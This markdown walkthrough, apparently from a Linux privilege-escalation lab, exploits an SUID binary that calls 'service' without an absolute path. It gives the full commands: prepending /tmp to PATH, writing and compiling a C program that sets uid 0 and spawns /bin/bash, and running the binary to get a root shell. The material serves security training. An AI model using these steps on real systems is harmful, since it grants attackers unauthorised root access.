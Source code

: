 1.  the first thing we want to do when facing a binary we are not familiar with, is run it to see what it does.  
    `/usr/local/bin/suid-env`  

    ![](../../../img/Linux-Environment/127.png)

    **NOTE:** here we can see that the binary appears to be start the apache2 service.
    
2.  the next thing we want to do is to try and extract strings from the binary. This well help us determine if any interesting binaries are being loaded during execution.  
    `strings /usr/local/bin/suid-env`  
    
    ![](../../../img/Linux-Environment/128.png)

    **NOTE:** In the strings we can see that the command service apache2 start in the binary is used without an absolute path
    
3.  Now that we have found this vulnerability, we need to edit our PATH variable to include a writeable directory.  
    `echo $PATH`  
    
    ![](../../../img/Linux-Environment/129.png)

    **NOTE:** When the command service apache2 start is executed by the suid-path binary, it is done so without using the absolute path. This means that the system will check each of the directories listed in our PATH environmental variable from left to right for the service binary, and then execute it from the first directory where it is found.
    
4.  All of the default directories in the PATH are NOT writeable for standard users. That means we will just have to add a new one.  
    `export PATH=/tmp:$PATH`  
    
    ![](../../../img/Linux-Environment/130.png)

    **NOTE:** Any user has the ability to edit their own PATH; and, any new directory added to a users PATH gets placed on the leftmost side,This means that any command that is executed without the absolute path to the binary, will check **/tmp** first.
    
5.  Now all we need to do is Create a malicious binary named **service** and place it in the **/tmp** folder.  
    `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c`
    
6.  Our malicious C program looks good. Now all we need to do is compile it  
    `gcc /tmp/service.c -o /tmp/service`
    
7.  Our exploit is all ready. Now when we execute suid-path, the program will ride the PATH to find the service command, and execute our malicious version of service before it ever finds the real binary.  
    `/usr/local/bin/suid-env`  
    
    ![](../../../img/Linux-Environment/131.png)